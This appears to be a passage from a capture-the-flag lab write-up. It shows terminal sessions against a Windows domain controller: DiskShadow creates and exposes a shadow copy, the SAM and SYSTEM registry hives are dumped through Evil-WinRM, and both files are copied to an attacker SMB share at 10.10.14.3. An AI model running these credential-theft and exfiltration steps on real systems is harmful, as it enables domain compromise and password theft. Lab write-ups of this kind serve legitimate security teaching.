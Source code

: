 ```text

DISKSHADOW> set metadata C:\Users\public\desktop\metadata.cab
The metadata file name path specifies a directory that is read-only.

DISKSHADOW> set metadata C:\Users\public\
No filename was specified.

DISKSHADOW> set metadata C:\Users\public\metadata.cab
The metadata file name path specifies a directory that is read-only.

DISKSHADOW> set metadata C:\Users\svc_backup\metadata.cab

DISKSHADOW> create
Alias AliasName for shadow ID {c3ad8620-8b3a-4bc6-944c-f732eb0ea317} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {00fe2ddc-208a-45d0-9b02-cdad7df538b8} set as environment variable.

Querying all shadow copies with the shadow copy set ID {00fe2ddc-208a-45d0-9b02-cdad7df538b8}

        * Shadow copy ID = {c3ad8620-8b3a-4bc6-944c-f732eb0ea317}               %AliasName%
                - Shadow copy set: {00fe2ddc-208a-45d0-9b02-cdad7df538b8}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 3/21/2023 6:15:41 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1

DISKSHADOW> expose %AliasName% z:
-> %AliasName% = {c3ad8620-8b3a-4bc6-944c-f732eb0ea317}
The shadow copy was successfully exposed as z:\.

DISKSHADOW> exit
```

Then, I use the following commands to exfiltrate everything I need to my kali machine:

```text
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\system system.sav
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\sam sam.sav
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> dir


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/21/2023   6:20 PM          45056 sam.sav
-a----        3/21/2023   6:20 PM       17580032 system.sav


*Evil-WinRM* PS C:\Users\svc_backup\Documents> copy .\sam.sav \\10.10.14.3\oriel\sam.sav
*Evil-WinRM* PS C:\Users\svc_backup\Documents> copy .\system.sav \\10.10.14.3\oriel\system.sav
```
